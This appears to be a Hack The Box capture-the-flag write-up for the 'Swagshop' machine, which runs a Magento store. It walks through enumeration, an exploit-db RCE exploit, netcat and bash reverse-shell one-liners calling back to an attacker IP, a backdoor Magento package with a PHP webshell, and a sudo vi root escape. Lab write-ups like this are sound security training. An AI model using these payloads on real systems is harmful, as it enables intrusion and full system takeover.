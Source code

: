 # Swagshop HTB, IP 10.10.10.140

# Initial Enumeration

1. nmap -sC -sV 10.10.10.140

![sw1](https://user-images.githubusercontent.com/15195048/94272854-841c1980-fef8-11ea-8e9e-9710b17d3933.png)

2. Dirbuster/ Gobuster
**gobuster dir -u 10.10.10.140 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 -s 200 -x php,txt,pl,sh,asp,aspx,html,json,py,cfm,rb,cgi -r -k**

![sw2](https://user-images.githubusercontent.com/15195048/94272862-854d4680-fef8-11ea-925a-58dae0a52818.png)

# Port Enumeration

## Enumerating port 80 & 443

Magento Version

![sw3](https://user-images.githubusercontent.com/15195048/94272863-854d4680-fef8-11ea-8f8a-5708ac00e79d.png)

Google
2014 Magento Demo Store exploit

![sw4](https://user-images.githubusercontent.com/15195048/94272864-85e5dd00-fef8-11ea-9278-42f0c75352ed.png)

10.10.10.14/index.php

![sw5](https://user-images.githubusercontent.com/15195048/94272867-85e5dd00-fef8-11ea-9c7f-236ca163620b.png)

At this moment, we have an admin user. In order to access the web server's files we need a shell. We would try to see if we can upload a file or send a reverse shell as an email. Additioanally, we would search for possible exploits and here it is
https://www.exploit-db.com/exploits/37811

**Modifications:**

![sw6](https://user-images.githubusercontent.com/15195048/94272868-867e7380-fef8-11ea-85c6-3aa34609eb1d.png)

username and password forme:forme
install date /app/etc/local.xml FOUND!

![sw7](https://user-images.githubusercontent.com/15195048/94272871-867e7380-fef8-11ea-9ff8-a6dca02527e1.png)

uncomment this line and sent to Burp Suite

![sw8](https://user-images.githubusercontent.com/15195048/94272872-87170a00-fef8-11ea-993a-fe38b5432d74.png)


![sw9](https://user-images.githubusercontent.com/15195048/94272874-87170a00-fef8-11ea-893c-e41e3ebc8c22.png)


Warning at the URL's parameters. Here we had 7d=7days but intercepting the request with burp suite we found out that there are more parameters to choose. So, changing 7d to 2d, the script worked.


![sw10](https://user-images.githubusercontent.com/15195048/94272875-87afa080-fef8-11ea-98ec-13510673d8e7.png)

![sw11](https://user-images.githubusercontent.com/15195048/94272876-87afa080-fef8-11ea-8fee-f19a6c8a5921.png)


We have an RCE since we can execute a command like whoami so we would try to get a shell.

1. python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/csh -i | nc 10.10.14.15 8888 >/tmp/f"


2.python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.15/8888 0>&1'"


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


RCE #2 - Magento Package
When the box was released, there was a second way to get RCE via uploading a Magento package. It seems this method has been patched in the current instance of the box, as /download is not longer there. 

From GitHub
This GitHub has a template for a malicious Magento package. I’ll download lavalamp_magento_bd.tgz, and upload it via http://10.10.10.140/downloader/:

![sw12](https://user-images.githubusercontent.com/15195048/94272878-88483700-fef8-11ea-9593-8282279b69a4.png)

Now I can use the webshell it installs:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
uid=33(www-data) gid=33(www-data) groups=33(www-data)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

From Scratch
This post gives a good walkthrough for creating a malicious Magento package. I’ll create two files in the following structure:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# tree .
.
├── errors
│   └── cmd.php
└── package.xml

1 directory, 2 files
cmd.php:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php system($_REQUEST['cmd']); ?>
package.xml:
<?xml version="1.0"?>
<package>
<name>backdoor</name>
<version>1.3.3.7</version>
<stability>devel</stability>
<licence>backdoor</licence>
<channel>community</channel>
<extends/>
<summary>Backdoor for magento</summary>
<description>Backdoor for magento</description>
<notes>backdoor</notes>
<authors>
    <author>
        <name>jvoisin</name>
        <user>jvoisin</user>
        <email>julien.voisin@dustri.org</email>
    </author>
</authors>
<date>2015-08-17</date>
<time>13:47:49</time>
<contents>
    <target name="mage">
        <dir>
            <dir name="errors">
                <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
            </dir>
        </dir>
    </target>
</contents>
<compatible/>
<dependencies>
    <required>
        <php>
            <min>5.2.0</min>
            <max>6.0.0</max>
        </php>
    </required>
</dependencies>
</package>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It is important that the hash is created correctly for the php file as follows:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# md5sum errors/cmd.php 
c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now I’ll use tar to package it up:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

root@kali# tar -czvf package.tgz errors/ package.xml 
errors/
errors/cmd.php
package.xml
root@kali# ls
errors  package.tgz  package.xml
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


And upload the tgz file, and I have RCE through a webshell:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Link:https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html

------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation
**sudo -l**

![sw13](https://user-images.githubusercontent.com/15195048/94272880-88e0cd80-fef8-11ea-91ae-f82db4928254.png)


1. sudo vi /var/www/html/NonExistingFile -c ':!/bin/sh'

![sw14](https://user-images.githubusercontent.com/15195048/94272882-88e0cd80-fef8-11ea-9de7-59e0854d7db2.png)

2. I’ll open a non-existing file with 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/NonExistingFile.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

GTFOBins’ vi page tells me how to get a shell from here:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
:set shell=/bin/sh
:shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Rooted**       
